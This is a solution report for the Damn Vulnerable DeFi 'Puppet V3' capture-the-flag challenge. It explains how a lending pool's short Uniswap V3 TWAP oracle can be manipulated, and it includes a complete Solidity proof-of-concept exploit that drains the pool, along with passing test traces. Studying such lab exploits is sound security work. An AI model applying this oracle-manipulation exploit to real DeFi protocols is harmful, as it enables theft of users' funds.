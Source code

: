 # Damn Vulnerable DeFi - Puppet V3 - Solution Report

## Problem Overview

### Contract Summary

The Puppet V3 challenge revolves around a lending pool contract (`PuppetV3Pool`) that uses Uniswap V3 as a price oracle. The main contracts involved are:

1. `PuppetV3Pool`: The vulnerable lending pool contract. Key functions include:

   - `borrow(uint256 borrowAmount)`: Allows users to borrow tokens by depositing WETH.
   - `calculateDepositOfWETHRequired(uint256 amount)`: Calculates the required WETH deposit for a given token amount.
   - `_getOracleQuote(uint128 amount)`: Internal function that gets the TWAP from Uniswap V3.

2. `DamnValuableToken`: The ERC20 token being borrowed.

3. Uniswap V3 contracts: Used for price discovery and as an oracle.

### Initial Setup

- Uniswap V3 pool: 100 WETH and 100 DVT
- Lending pool: 1,000,000 DVT
- Player: 1 ETH and 110 DVT
- Uniswap V3 pool settings:
  - Fee: 0.3%
  - Tick range: -60 to 60 (narrow liquidity range)
  - Observation cardinality: 40
- TWAP period: 10 minutes

### Success Criteria

- Drain all DVT tokens (1,000,000) from the lending pool
- Transfer the drained tokens to a designated recovery account
- Complete the attack within 115 seconds of simulated time

## Vulnerability

The main vulnerability in this challenge lies in the price oracle mechanism used by the `PuppetV3Pool` contract. Specifically, the vulnerability stems from:

1. Reliance on a short-term TWAP:
   In the `PuppetV3Pool` contract, the TWAP period is set to a very short duration:

   ```solidity
   uint32 public constant TWAP_PERIOD = 10 minutes;
   ```

   This short period makes the oracle susceptible to short-term price manipulations.

2. Low liquidity in the Uniswap V3 pool:
   The Uniswap V3 pool is initialized with only 100 WETH and 100 DVT, which is very low compared to the 1,000,000 DVT in the lending pool. This low liquidity makes it easier to manipulate the pool's price.

3. Narrow liquidity range in Uniswap V3:
   The liquidity in the Uniswap V3 pool is concentrated in a very narrow range:

   ```solidity
   tickLower: -60,
   tickUpper: 60,
   ```

   This narrow range (approximately ±0.6% around the current price) means that even relatively small trades can have a significant impact on the price.

4. Lack of additional price checks or circuit breakers:
   The `PuppetV3Pool` contract doesn't implement any additional checks to detect or prevent drastic price changes. It relies solely on the Uniswap V3 TWAP, which can be manipulated given the above conditions.

These vulnerabilities combined allow an attacker to manipulate the price oracle by making a large trade in the Uniswap V3 pool, wait for the TWAP to reflect this manipulated price, and then use this artificially low price to borrow a large amount of DVT from the lending pool with a relatively small amount of WETH.

## Attack Process

The attack to exploit the vulnerability in the Puppet V3 challenge involves the following steps:

1. Price Manipulation:

   - Approve the Uniswap V3 router to spend the player's DVT tokens.
   - Use the Uniswap V3 SwapRouter to swap all of the player's DVT (110 tokens) for WETH.
   - This large swap in a low-liquidity pool significantly decreases the price of DVT relative to WETH in the Uniswap V3 pool.

2. TWAP Adjustment:

   - Wait for a period of time (close to but not exceeding 115 seconds) to allow the Time-Weighted Average Price (TWAP) to reflect the manipulated price.
   - This step is crucial as it allows the manipulated price to be fully captured by the oracle used by the lending pool.

3. Preparation for Borrowing:

   - Wrap the player's 1 ETH to WETH, increasing the available WETH for the next steps.
   - Approve the lending pool to spend the player's WETH.

4. Calculating Borrow Amount:

   - Query the lending pool for its current DVT balance.
   - Calculate the amount of WETH required to borrow all DVT from the lending pool.
   - This calculation will use the manipulated TWAP, resulting in a very low WETH requirement.

5. Borrowing from Lending Pool:

   - Call the `borrow` function of the lending pool, attempting to borrow all available DVT.
   - Due to the manipulated price, a small amount of WETH will be sufficient to borrow a large amount of DVT.

6. Token Transfer:
   - Transfer all borrowed DVT tokens to the designated recovery address.

## Proof of Concept (PoC)

### Core Implementation

The core implementation of the attack is contained within the `test_puppetV3` function:

```solidity
function test_puppetV3() public checkSolvedByPlayer {
    // Declare Uniswap V3 pool
    IUniswapV3Pool uniswapPool = IUniswapV3Pool(uniswapFactory.getPool(address(weth), address(token), FEE));

    // Step 1: Approve tokens for trading
    token.approve(address(positionManager), type(uint256).max);
    token.approve(address(uniswapPool), type(uint256).max);

    // Step 2: Swap DVT for WETH to manipulate the price
    ISwapRouter swapRouter = ISwapRouter(0xE592427A0AEce92De3Edee1F18E0157C05861564);
    token.approve(address(swapRouter), type(uint256).max);

    swapRouter.exactInputSingle(
        ISwapRouter.ExactInputSingleParams({
            tokenIn: address(token),
            tokenOut: address(weth),
            fee: FEE,
            recipient: player,
            deadline: block.timestamp,
            amountIn: 110e18,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        })
    );

    // Step 3: Wait for TWAP to adjust (but not more than 114 block timestamp)
    vm.warp(block.timestamp + 114);

    // Step 4: Wrap ETH to WETH
    weth.deposit{value: 1 ether}();

    // Step 5: Approve WETH spending for the lending pool
    weth.approve(address(lendingPool), type(uint256).max);

    // Step 6: Calculate the amount of DVT we can borrow
    uint256 lendingPoolBalance = token.balanceOf(address(lendingPool));
    uint256 depositRequired = lendingPool.calculateDepositOfWETHRequired(lendingPoolBalance);

    // Check if we have enough WETH to make the deposit
    require(weth.balanceOf(player) >= depositRequired, "Not enough WETH for deposit");

    // Step 7: Borrow all DVT from the lending pool
    lendingPool.borrow(lendingPoolBalance);

    // Step 8: Transfer borrowed DVT to the recovery address
    token.transfer(recovery, lendingPoolBalance);
}
```

### Running Result

```
Ran 1 test for test/puppet-v3/PuppetV3.t.sol:PuppetV3Challenge
[PASS] test_puppetV3() (gas: 827670)
Traces:
  [837270] PuppetV3Challenge::test_puppetV3()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [2666] 0x1F98431c8aD98523631AE4a59f267346ea31F984::getPool(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, DamnValuableToken: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 3000) [staticcall]
    │   └─ ← [Return] 0xc92836c81fBCe900D13Db1FDe3e4c0726d30AD6C

...
...

    ├─ [0] VM::assertLt(114, 115, "Too much time passed") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(PuppetV3Pool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Lending pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [519] DamnValuableToken::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1000000000000000000000000 [1e24]
    ├─ [0] VM::assertEq(1000000000000000000000000 [1e24], 1000000000000000000000000 [1e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
